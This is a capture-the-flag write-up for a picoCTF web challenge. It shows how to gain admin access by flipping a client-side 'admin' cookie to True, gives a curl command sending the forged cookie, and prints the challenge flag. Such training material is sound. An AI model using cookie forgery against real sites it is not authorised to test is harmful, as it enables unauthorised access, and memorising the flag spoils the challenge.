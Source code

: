 # Overview 
Category: [Web Exploitation]()

AUTHOR: BOBSON

# Description
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? https://jupiter.challenges.picoctf.org/problem/13594/ (link) or http://jupiter.challenges.picoctf.org:13594

# Solution
- I try input username=test  & password=test
- That there is three cookies:
A cookie named admin with the value False
A cookie named username with the value test
A cookie named password with the value test
- Edit the admin cookie's value and set it to True and then reload the web page (press F5). Now the web page displays the flag.
- If you want to automate the retrieval of the flag you can use curl like this:
```bash
$ curl --cookie "admin=True" https://jupiter.challenges.picoctf.org/problem/13594/flag | grep -oE 'picoCTF{.*}'
picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}
```